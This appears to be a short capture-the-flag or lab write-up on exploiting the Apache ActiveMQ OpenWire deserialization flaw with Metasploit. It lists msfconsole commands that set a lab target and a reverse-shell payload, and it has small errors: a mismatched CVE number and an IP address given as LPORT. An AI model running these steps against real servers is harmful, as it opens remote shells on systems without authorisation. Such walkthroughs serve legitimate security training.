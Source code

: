 ![exploit](images-broker/7.png)

I found a metasploit module exploit which is used for a deserialization vulnerability in the OpenWire protocol, and it also recommends to update Apache ActiveMQ to 5.15.16. I have explained the vulnerability in detail below, and a more detailed version will be available on my discord.

**Links:**
1. [CVE-2023-46606](https://nvd.nist.gov/vuln/detail/cve-2023-46604)
2. [Exploit](https://packetstorm.news/files/id/175676)

### Metasploit: activeMQ exploit

After some research on what the exploit is, how it works and why the vulnerability is affected by this exploit, I immediately opened metasploit for testing this exploit. While doing my research, I was confident that this will work and fun part was that it will give me a user-level access, which means I will have an opportunity to perform privilege escalation.

**Commands I performed:**
```
msfconsole
msf> search Apache activeMQ
msf> use 7
msf> show options
msf> info
msf> show targets
msf> set target 1
msf> set RHOSTS 10.10.11.243
msf> set LPORT 10.10.14.12
msf> set payload cmd/linux/http/x86/shell_reverse_tcp
msf> set SRVPORT 4343
msf> exploit
```
